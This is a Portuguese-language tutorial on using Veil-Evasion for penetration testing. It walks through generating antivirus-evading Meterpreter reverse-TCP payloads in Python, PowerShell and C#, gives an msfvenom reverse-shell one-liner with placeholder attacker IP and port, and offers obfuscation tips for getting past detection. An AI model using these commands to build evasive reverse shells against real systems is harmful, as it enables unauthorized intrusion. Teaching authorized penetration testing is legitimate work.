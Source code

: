 O Veil-Evasion é uma ferramenta poderosa para ofuscação e criação de payloads que contornam softwares de antivírus em ambientes de testes de penetração. Ele faz parte da suíte Veil Framework, que contém outras ferramentas para pós-exploração, mas Veil-Evasion foca na criação de executáveis que evitam a detecção por soluções de segurança.

### Introdução Básica ao Veil-Evasion

1. **Objetivo**: O Veil-Evasion visa gerar payloads ofuscados, principalmente scripts de shellcode e executáveis, que conseguem evitar a detecção de antivírus comuns.
2. **Linguagens Suportadas**: Ele permite criar payloads usando várias linguagens como Python, C#, PowerShell, entre outras.
3. **Arquitetura**: A arquitetura do Veil-Evasion é modular, permitindo escolher diferentes métodos de codificação, compiladores e linguagens de implementação. Isso aumenta a versatilidade na criação de payloads personalizados.

### Instalação

No Kali Linux, o Veil-Evasion pode ser instalado com os seguintes comandos:

```bash
sudo apt update
sudo apt install veil
```

Para garantir que o Veil está atualizado, use o comando:

```bash
veil --update
```

Ou, se necessário, faça o clone diretamente do repositório oficial:

```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
./setup.sh
```

### Estrutura Básica do Veil-Evasion

Quando o Veil-Evasion é iniciado, ele exibe uma interface de linha de comando onde você pode selecionar o tipo de payload desejado e a linguagem de codificação. Por exemplo:

```bash
sudo veil
```

Em seguida, selecione `Evasion` para iniciar a criação de um payload. A interface oferece opções para escolher o tipo de payload, a linguagem de implementação, e outras configurações que impactam na evasão dos antivírus.

### Criação de um Payload com Veil-Evasion

#### Exemplo Básico: Payload em Python

1. No menu do Veil-Evasion, selecione a opção `Evasion`.
2. Escolha um payload em Python (por exemplo, `python/meterpreter/rev_tcp`).
3. Configure o endereço IP e a porta para a conexão reversa:

   ```bash
   set LHOST=seu_ip
   set LPORT=sua_porta
   ```

4. Gera o payload com o comando:

   ```bash
   generate
   ```

Este processo cria um executável que pode ser transferido para o sistema alvo e executado para obter uma sessão de Meterpreter, contornando a detecção do antivírus na maioria das vezes.

### Codificação e Ofuscação Avançada

A ofuscação é uma das principais funcionalidades do Veil-Evasion. É possível selecionar diferentes técnicas de ofuscação para dificultar a detecção. O Veil oferece opções como:

- **Encoding em XOR**: Codifica o payload em XOR, dificultando a análise estática.
- **Compressão e Criptografia**: O payload pode ser comprimido ou criptografado usando técnicas como Base64 e RC4.
- **Execução sob Shellcode**: Permite que o shellcode seja executado diretamente na memória, sem precisar escrever no disco, dificultando a detecção por parte de antivírus baseados em assinaturas.

### Exemplos Avançados

1. **Criação de Payload PowerShell**: O PowerShell é eficaz em ambientes Windows, e o Veil-Evasion permite criar payloads PowerShell que podem ser executados diretamente da linha de comando.

   ```bash
   use powershell/meterpreter/rev_tcp
   set LHOST=seu_ip
   set LPORT=sua_porta
   generate
   ```

2. **Payload C# para Contornar Antivírus em Ambiente Corporativo**:
   Utilizando C#, é possível criar executáveis complexos que utilizam APIs nativas do Windows, tornando mais difícil para os antivírus detectarem a execução do código malicioso.

   ```bash
   use cs/meterpreter/rev_tcp
   set LHOST=seu_ip
   set LPORT=sua_porta
   generate
   ```

### Estratégias de Teste e Melhorias de Evasão

- **Testes com Diferentes Codificações**: Experimente diversas técnicas de codificação, como XOR e Base64, para determinar qual combinação obtém melhores resultados de evasão.
- **Mistura de Linguagens**: Combine diferentes linguagens de payload para criar camadas adicionais de ofuscação e evitar a detecção.
- **Varredura com Antivírus Antes de Testar no Alvo**: Utilize uma sandbox para verificar quais soluções de antivírus detectam o payload antes de tentar em um alvo real.

### Integração com Metasploit e Outros Frameworks

O Veil-Evasion pode ser integrado ao Metasploit Framework para automatizar a criação e o uso de payloads. Isso permite um fluxo contínuo de exploração, onde o Veil-Evasion é utilizado para a criação do payload e o Metasploit para a entrega e pós-exploração.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=seu_ip LPORT=sua_porta -f exe > payload.exe
```

Após o payload ser gerado, o Veil-Evasion pode ofuscá-lo para reduzir as chances de detecção.

### Considerações Finais

O Veil-Evasion é uma ferramenta valiosa em testes de penetração avançados, especialmente em ambientes onde a evasão de antivírus é crítica. Contudo, com o avanço de técnicas de detecção, é importante que o tester esteja sempre atualizado com novas técnicas e constantemente teste a eficácia dos payloads em diferentes cenários.